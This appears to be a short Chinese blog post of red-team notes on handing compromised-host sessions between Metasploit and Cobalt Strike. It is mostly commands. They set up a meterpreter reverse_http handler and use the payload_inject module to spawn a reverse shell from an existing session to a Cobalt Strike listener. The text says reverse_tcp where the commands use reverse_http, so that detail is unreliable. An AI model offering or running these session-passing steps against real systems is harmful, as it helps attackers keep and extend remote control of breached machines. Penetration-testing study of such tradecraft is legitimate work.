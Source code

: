 ```yaml
---
title: msf和cs联动
tags:
  - msf
  - cs
abbrlink: 32255
date: 2022-05-12 20:29:34
---
```


## cs传shell给msf

1.msf

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.110.130     
set lport 4444
```

2.cs创建监听器，名字为msf

选择Foreign http

3.cs执行监听器 spawn msf

## msf传shell给cs

1. cs创建监听器

​	选择的是http方式连接

2. msf派生shell

​	先把会话放到后台，设置如下。因为cs上设置的为http连接，所以我们下边payload也要对应的设置为reverse_tcp

~~~~
#派生一个新的shell给cs，那么msf里面用到的exploit是
use exploit/windows/local/payload_inject 
set payload windows/meterpreter/reverse_http
#禁止产生一个新的handler
set disablepayloadhandler true
#设置ip端口为cs监听的
set LHOST IP
set LPORT 端口
set session 3
run
~~~~

